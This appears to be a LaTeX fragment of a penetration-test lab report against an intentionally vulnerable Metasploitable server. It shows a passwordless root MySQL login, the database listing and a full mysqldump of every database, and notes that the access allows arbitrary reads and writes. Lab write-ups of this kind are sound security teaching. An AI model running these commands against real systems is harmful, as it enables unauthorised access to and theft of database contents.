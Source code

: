 \documentclass{article}
\begin{document}
\begin{lstlisting}[basicstyle=\tiny]
root@bt-was:~# mysql -uroot -h metasploitable.sait230.ca
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36239
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2011, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information\_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
7 rows in set (0.00 sec)

mysql> 

\end{lstlisting}

I was able to connect to the mysql server as the root mysql
account. This gave me full access to all databases on the database server.

I used mysqldump to get a dump of all the databases on this host for offline analysis.

\begin{lstlisting}[basicstyle=\tiny]
root@bt-was:~# mysqldump -uroot -h metasploitable.sait230.ca \
  --all-databases > all-databases.sql
\end{lstlisting}

\newpage
With full root access and a mysql shell I can insert rows into any table in any database.
I can update any record and I can read all information in all tables.
\end{document}
